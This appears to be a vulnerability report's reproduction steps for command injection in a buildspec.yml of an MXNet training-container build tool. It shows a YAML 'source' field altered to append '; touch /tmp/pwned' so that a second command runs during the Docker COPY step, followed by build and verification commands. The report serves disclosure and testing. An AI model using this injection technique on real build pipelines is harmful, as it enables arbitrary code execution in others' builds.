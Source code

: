     1. Fork the repository.
    2. Create a malicious `buildspec.yml` file in `mxnet/training/` directory in your forked repository, replacing the original one. In this malicious `buildspec.yml`, modify the `source` field under `context` to inject a command. For example, modify `mxnet/training/buildspec.yml` and change line 20 from:
        ```yaml
        source: docker/artifacts/dockerd-entrypoint.py
        ```
        to:
        ```yaml
        source: !join ['', 'docker/artifacts/dockerd-entrypoint.py', ' ; touch /tmp/pwned']
        ```
        This payload attempts to create a file `/tmp/pwned` inside the build container during the `COPY` command execution.
    3. Set environment variables as described in `README.md` to prepare for building MXNet training container.
    4. Run the build command locally, targeting the modified `buildspec.yml`:
        ```shell script
        python src/main.py --buildspec mxnet/training/buildspec.yml --framework mxnet
        ```
    5. After the build process (or if it fails during build), inspect the resulting Docker image or the build logs for evidence of command execution. In this case, check if the `/tmp/pwned` file exists in the built container. You can run the container locally:
        ```shell script
        docker run --rm <your-built-image-name> sh -c "ls -l /tmp/pwned"
        ```
    6. If the file `/tmp/pwned` exists, it confirms the command injection vulnerability.